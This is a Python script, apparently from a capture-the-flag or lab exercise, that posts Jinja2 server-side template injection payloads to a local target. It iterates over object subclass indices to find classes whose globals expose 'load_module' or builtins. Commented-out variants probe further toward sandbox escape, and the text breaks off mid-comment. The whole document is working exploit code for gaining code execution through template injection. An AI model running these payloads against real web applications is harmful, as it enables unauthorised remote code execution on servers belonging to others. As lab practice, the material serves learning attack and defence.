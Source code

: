 ```Python
import requests
from lxml import html

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36',
}

url = "http://192.168.159.128:50000/level/1"

NUM = 500

if __name__ == "__main__":

    # # 查找类
    # find_class = "importlib"
    # for i in range(NUM):
    #
    #     data_class1 = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
    #     }
    #
    #     res = requests.post(url=url, data=data_class1, headers=headers)
    #     if find_class in res.text:
    #         tree = html.fromstring(res.text)
    #         print(str(i) + " -> " + tree.text)

    # 查找类方法
    find_method = "load_module"
    for i in range(NUM):

        data_method = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__}}" % i
        }

        data_class = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
        }

        res = requests.post(url=url, data=data_method, headers=headers)
        if find_method in res.text:
            res2 = requests.post(url=url, data=data_class, headers=headers)
            tree = html.fromstring(res2.text)
            print(str(i) + " -> " + tree.text)

    # # 查看内置函数
    # for i in range(NUM):
    #     data_builtins = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}" % i
    #     }
    #
    #     res3 = requests.post(url=url, data=data_builtins, headers=headers)
    #     if res3.text != "Hello " and res3.text != "No this level":
    #         print(html.fromstring(res3.text).text.replace("\n", "【回车】"))
    #         break

    # # 查看某个类的__globals__
    # data_globals = {
    #     'code': "{{().__class__.__bases__[0].__subclasses__()[" + str(133) + "].__init__.__globals__}}"
    # }
    #
```